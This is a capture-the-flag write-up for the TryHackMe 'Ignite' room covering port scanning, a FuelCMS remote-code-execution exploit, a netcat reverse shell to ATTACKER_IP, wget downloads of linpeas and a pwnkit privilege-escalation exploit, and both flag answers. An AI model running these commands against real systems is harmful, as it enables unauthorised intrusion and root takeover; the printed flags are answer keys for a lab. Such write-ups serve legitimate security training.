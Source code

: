 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Running some basic `nmap` scans:

```shell-session
$ sudo nmap -sS -vv -p- -oN nmap_stealth_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

$ sudo nmap -sV -p80 -vv -oN nmap_service_scan.txt TARGET_IP
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /0/: Potentially interesting folder
|   /home/: Potentially interesting folder
|_  /index/: Potentially interesting folder
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
```

Now, time for some directory enumeration/traversal stuff:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dirlist2_3.txt

$ cat gobuster_dirlist2_3.txt | grep "Status: 200"                        
/index.php            (Status: 200) [Size: 16595]
/index                (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/robots.txt           (Status: 200) [Size: 30]
```

The `robots.txt` file is exposed, let's check what it contains:
```txt
## curl http://TARGET_IP/robots.txt
User-agent: *
Disallow: /fuel/
```

Hmm, it seems like the dev is trying to block access to the `/fuel/` directory. The home page of the website at `http://TARGET_IP/` shows us the following:
![](home_page.png)



Checking ExploitDB for some existing exploits for _FuelCMS version 1.4_ shows us 3 different options for gaining initial access, SQL injections, RCE exploits and a CSRF vulnerability that's in version 1.5. I'll be using [this](https://www.exploit-db.com/exploits/50477), based on [CVE-2018-16763](###### [2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)) for this writeup.

## Gaining Access

```shell-session
$ python3 50477.py -u http://TARGET_IP/        
[+]Connecting...
Enter Command $rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f


# On our machine (in a different session):
$ nc -nvlp 4444         
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 44732
sh: 0: can't access tty; job control turned off

$ python -c "import pty; pty.spawn('/bin/bash')"      
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt

# Lets alter the robots file so that we can access the fuel directory and its contents...
www-data@ubuntu:/var/www/html$ echo "User-agent: *" >  robots.txt
www-data@ubuntu:/var/www/html$ echo "Allow: /" >> robots.txt
www-data@ubuntu:/var/www/html$ cat robots.txt
User-agent: *
Allow: /

# and... now the flag :)
www-data@ubuntu:/$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

> User flag
> Answer: `6470e394cbf6dab6a91682cc8585059b`

## Privilege Escalation

```
$ www-data@ubuntu:/home/www-data$ uname -a
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/home/www-data$ gcc -v
...
gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 

# On our machine:
$ python3 -m http.server 8080

# On the target machine shell session:
www-data@ubuntu:/home/www-data$ cd /tmp
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/linpeas.sh
www-data@ubuntu:/tmp$ sh linpeas.sh
...


╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                   

Potentially Vulnerable to CVE-2022-2588
...

```

I once again searched ExploitDB and came across [this exploit](https://www.exploit-db.com/exploits/50689) that allows privilege escalation. 

```

www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/evil-so.c
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/exploit.c
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/Makefile
www-data@ubuntu:/tmp$ make
...
www-data@ubuntu:/tmp$ ./exploit
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
b9bbcb33e11b80be759c4e844862482d
```

> Root flag
> Answer: `b9bbcb33e11b80be759c4e844862482d`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Ignite by DarkStar7471](https://tryhackme.com/room/ignite)

